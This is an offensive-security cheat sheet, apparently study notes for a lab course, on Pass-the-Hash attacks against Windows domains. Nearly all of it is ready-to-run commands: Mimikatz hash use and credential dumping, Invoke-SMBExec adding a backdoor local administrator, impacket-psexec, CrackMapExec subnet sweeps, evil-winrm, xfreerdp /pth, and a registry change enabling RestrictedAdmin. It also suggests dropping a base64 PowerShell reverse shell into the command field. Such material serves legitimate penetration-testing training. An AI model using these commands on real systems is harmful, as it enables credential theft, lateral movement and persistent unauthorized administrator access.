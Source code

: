 ```yaml
---
description: >-
  Is a technique where an attacker uses a password hash instead of the plain
  text password
---
```


# Pass the Hash (PtH)

the attacker must have administrative privileges or particular privileges on the target machine to obtain a password hash. Hashes can be obtained in several ways, including:

* Dumping the local SAM database from a compromised host.
* Extracting hashes from the NTDS database (ntds.dit) on a Domain Controller.
* Pulling the hashes from memory (lsass.exe).

### Mimikatz

```cmd-session
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

* `/user` - The user name we want to impersonate.
* `/rc4` or `/NTLM` - NTLM hash of the user's password.
* `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
* `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

> Note that: Mimikatz is one of the most useful tools that we will be using in the future for active directory boxes. Some additional points to be noted about Mimikatz.
>
> 1. You can run it with just mimikatz.exe and then slowly specify other commands.
> 2. To extract the hashes presented in the current session, instead of running `sekurlsa::pth` we can run `sekurlsa::logonpasswords` additional information could be found in the [`HackTricks`](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz) website

### Invoke-TheHash(PS)

To download the tools, access [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) github.

```powershell-session
Import-Module .\Invoke-TheHash.psd1
```

<pre class="language-powershell-session"><code class="lang-powershell-session"><strong>Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add &#x26;&#x26; net localgroup administrators mark /add" -Verbose
</strong></code></pre>

* `Target` - Hostname or IP address of the target.
* `Username` - Username to use for authentication.
* `Domain` - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
* `Hash` - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
* `Command` - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

> we can use reverse shell payload in the Command section of the code (`PowerShell #3 (Base64)`) and for the target we can specify machine name instead of IP address (either would work).

### Impacket

```shell-session
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

Following tools also works with PtH:

* [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
* [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
* [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

### CrackMapExec

**Pass the Hash with CrackMapExec**

```shell-session
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

**CrackMapExec - Command Execution**

```shell-session
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

### evil-winrm

```shell-session
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

> Note: When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb

### RDP

```shell-session
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

> for this method to work we have to set the value for `DisableRestrictedAdmin` as 0.
>
> To enable run:
>
> ```cmd-session
> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
> ```
>
> &#x20;Otherwise we will get the following error.
>
> <img src="../../../.gitbook/assets/image (56).png" alt="" data-size="original">



